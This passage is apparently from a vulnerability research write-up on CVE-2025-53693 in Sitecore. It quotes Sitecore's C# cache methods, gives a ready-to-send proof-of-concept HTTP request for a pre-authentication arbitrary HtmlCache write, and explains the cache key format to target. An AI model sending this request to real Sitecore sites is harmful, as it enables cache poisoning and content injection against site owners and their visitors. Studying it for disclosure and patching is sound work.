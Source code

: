 Magic method for poisoning:

```csharp
// Sitecore.Web.UI.WebControl
protected virtual void AddToCache(string cacheKey, string html) {
  HtmlCache c = CacheManager.GetHtmlCache(Sitecore.Context.Site);
  if (c != null) c.SetHtml(cacheKey, html, this._cacheTimeout);
}
```

Because we can target xmlcontrol:GlobalHeader and call Sitecore.Web.UI.WebControl methods by name, we get a pre‑auth arbitrary HtmlCache write primitive.

### PoC request (CVE-2025-53693)

```
POST /-/xaml/Sitecore.Shell.Xaml.WebControl HTTP/2
Host: target
Content-Type: application/x-www-form-urlencoded

__PARAMETERS=AddToCache("wat","<html><body>pwn</body></html>")&__SOURCE=ctl00_ctl00_ctl05_ctl03&__ISEVENT=1
```

Notes:
- __SOURCE is the clientID of xmlcontrol:GlobalHeader within Sitecore.Shell.Xaml.WebControl (commonly stable like ctl00_ctl00_ctl05_ctl03 as it’s derived from static XAML).
- __PARAMETERS format is Method("arg1","arg2").

## What to poison: Cache key construction

Typical HtmlCache key construction used by Sitecore controls:

```csharp
public virtual string GetCacheKey(){
  SiteContext site = Sitecore.Context.Site;
  if (this.Cacheable && (site == null || site.CacheHtml) && !this.SkipCaching()){
    string key = this.CachingID.Length > 0 ? this.CachingID : this.CacheKey;
    if (key.Length > 0){
      string k = key + "_#lang:" + Language.Current.Name.ToUpperInvariant();
      if (this.VaryByData)        k += ResolveDataKeyPart();
      if (this.VaryByDevice)      k += "_#dev:"   + Sitecore.Context.GetDeviceName();
      if (this.VaryByLogin)       k += "_#login:" + Sitecore.Context.IsLoggedIn;
      if (this.VaryByUser)        k += "_#user:"  + Sitecore.Context.GetUserName();
      if (this.VaryByParm)        k += "_#parm:"  + this.Parameters;
      if (this.VaryByQueryString && site?.Request != null)
                                   k += "_#qs:"   + MainUtil.ConvertToString(site.Request.QueryString, "=", "&");
      if (this.ClearOnIndexUpdate) k += "_#index";
      return k;
    }
  }
  return string.Empty;
}
```
